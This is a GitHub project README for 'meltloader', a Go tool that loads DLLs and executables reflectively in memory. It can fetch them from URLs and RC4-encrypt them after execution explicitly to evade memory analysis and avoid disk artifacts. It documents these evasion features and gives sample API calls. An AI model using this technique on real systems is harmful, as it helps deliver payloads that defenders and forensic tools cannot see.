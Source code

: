 # meltloader

a reflective dll/pe loader for windows written in go that performs pe loading entirely in memory with automatic memory management and encryption features.

## demo
>now supports PEs
![melt](https://github.com/user-attachments/assets/819639da-32ca-4393-8945-0e4c0b8145d6)

## overview

meltload implements reflective dll/pe loading using windows nt api calls to allocate, write, and execute pe files without touching disk. the loader handles pe parsing, relocation processing, import resolution, and memory protection changes while providing tracking and cleanup capabilities. this should allow you to chain an arbitrary amount of DLLs that perform various operations in a modular and secure manner :3

the loader uses windows' provided SystemFunction032 rc4 encryption for evasion purposes. downloaded dlls are always encrypted in memory with an optional sleep period before decryption and execution, and after execution the mapped dll image gets encrypted in place using a randomly generated key. this makes the loaded dll unreadable to memory analysis tools while maintaining proper cleanup functionality.

## https requirement

LoadDLLFromURL requires https connections as winhttp in all my implementations failed with non https and i cba to look at microsoft docs any longer for function signature and type converting windows stuff to go.

## go dll compatibility

also works with go compiled dlls, see go-dll-src/ for reference 

## api usage

```go
// load dll from file
mapping, err := pe.LoadDLLFromFile("path/to/dll.dll", "ExportedFunction")

// load dll from url with optional sleep before encrypt/decrypt finishes
mapping, err := pe.LoadDLLFromURL("https://example.com/dll.dll", "ExportedFunction", 5)

// load dll from url without sleep before encrypt/decrypt finishes
mapping, err := pe.LoadDLLFromURL("https://example.com/dll.dll", "ExportedFunction")

// check currently mapped dlls
baseAddrs, sizes, count := pe.GetMap()

// cleanup/unmap dll from memory
err = pe.Melt(mapping)

// cleanup/ummap exe from memory 
err = pe.MeltPE(mapping)
```

## function identifier interface

the functionIdentifier parameter accepts multiple types:

- string: function name for named exports ("MessageBoxA")
- int: ordinal number for ordinal exports 
- string containing number: automatically parsed as ordinal ("123")

if no specific function is found, the loader will execute the dll's entry point with DLL_PROCESS_ATTACH.

## technical implementation

the loader performs standard reflective dll loading steps:

pe validation checks dos and nt headers for proper signatures and offsets. memory allocation uses NtAllocateVirtualMemory attempting preferred base address first, falling back to system-chosen addresses. section mapping copies pe headers and each section to their virtual addresses using NtWriteVirtualMemory.

relocation processing handles base address changes by parsing the relocation table and updating all absolute addresses. only IMAGE_REL_BASED_DIR64 relocations are processed for 64-bit compatibility. import resolution walks the import table, loads required libraries with LoadLibraryW, and resolves function addresses with GetProcAddress.

memory protection changes from PAGE_READWRITE to PAGE_EXECUTE_READ using NtProtectVirtualMemory after dll loading completes. export resolution searches the export table by name or ordinal to find the target function.

the encryption system generates a random 32-byte rc4 key during loading. a deferred function encrypts the mapped dll memory in place after execution completes. the encryption key gets securely wiped from memory after use.

memory tracking maintains a global registry of loaded dlls protected by read-write mutex. each mapping stores base address and size information. the Melt function uses VirtualFree with MEM_RELEASE flag and automatically removes entries from the tracking registry. this is opsec iffy, but DLL 0: Base=0x19065C10000, Size=32768 bytes is all that shows up to memory scanners, can also optionally be encrypted when unused if you want to adapt this further

## evasion features

the loader includes several evasion mechanisms. downloaded dlls are always encrypted in memory with an optional time period before decryption and execution. mapped dlls get encrypted in place after execution using rc4 with random keys. memory operations use nt api calls instead of higher level win32 apis. all allocations and operations happen entirely in memory without disk artifacts. the tracking system allows complete cleanup of loaded dlls, removing them from our process memory.
